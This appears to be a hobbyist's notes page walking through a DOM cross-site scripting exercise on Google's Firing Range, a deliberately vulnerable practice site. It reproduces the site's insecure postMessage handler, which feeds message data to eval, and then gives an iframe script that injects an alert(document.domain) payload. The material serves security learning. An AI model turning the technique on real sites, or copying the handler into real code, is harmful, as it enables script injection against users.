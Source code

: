 # AN IDEA ON [XSS](https://en.wikipedia.org/wiki/Cross-site_scripting)

in addition to the following [l1ackerone](https://www.hackerone.com/) YouTube Video:

[Hacker101 - JavaScript for Hackers (Created by @STÖK)](https://www.youtube.com/watch?v=FTeE3OrTNoA)

[Hacker0x01](https://github.com/Hacker0x01/hacker101) <- I didn't check if there's an repo already, the answer is yes. LMAO

Google has a website called [Firing Range](https://public-firing-range.appspot.com/dom/) with some cool vulnerabilities you can just shoot at, to explore what happens.

Example:
- [PostMessage - complex message](https://public-firing-range.appspot.com/dom/toxicdom/postMessage/complexMessageDocumentWriteEval)

```html
<html>
  <head><title>Toxic DOM</title></head>
  <body>
    <script>
      const postMessageHandler = function(msg) {
  let action = msg.data.action;
  if(action === 'exec') {
    eval(msg.data.payload);
  } else if (action === 'addImage') {
    document.write('<img href='+ msg.data.source + '>');
  } else if (action === 'addHtml') {
    document.write(msg.data.html);
  } else {
    console.debug('unsupported command');
  }
};

window.addEventListener('message', postMessageHandler, false);

    </script>
  </body>
</html>
```
# Let's open console-devtools
Try some stuff: ,,Oh we could exec some post-scripts, nice!"
```
[Nano] Nano Defender Activated :: public-firing-range.appspot.com
VM81:15 [Nano] Read-only Property :: window.canRunAds
VM82:15 [Nano] Read-only Property :: window.canShowAds
VM83:15 [Nano] Read-only Property :: window.isAdBlockActive
alert('test')
undefined
window-Infinity
NaN
window.postMessage({"action":"exec","payload":"alert(document.domain)"},'*')
undefined
```

# [repl.it](https://repl.it/) is awesome, and...
..will be our temp host for testing now

Just hit **<> start coding** and choose `HTML, CSS, JS`
## Let's insert an `iframe` into our html

index.html
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width">
    <title>repl.it</title>
    <link href="style.css" rel="stylesheet" type="text/css" />
  </head>
  <body>


    <iframe id=target></iframe>


    <script src="script.js"></script>
  </body>
</html>
```
## Write some JS
Now that we know theres a vurlnability, just use the one we tested in console earlier 
> `window.postMessage({"action":"exec","payload":"alert(document.domain)"},'*'`
and target the already mentioned site 


script.js
```javascript
var target = document.getElementById('target')

target.addEventListener('load',()=>{

  target.contentWindow.postMessage({"action":"exec","payload":"alert(document.domain)"},'*')
})

target.src = "https://public-firing-range.appspot.com/dom/toxicdom/postMessage/complexMessageDocumentWriteEval"
```
# Alert will popup, congratulations!
 An embbeded page at public-firing-range.appspot.com says
public -firing-range.appspot.com
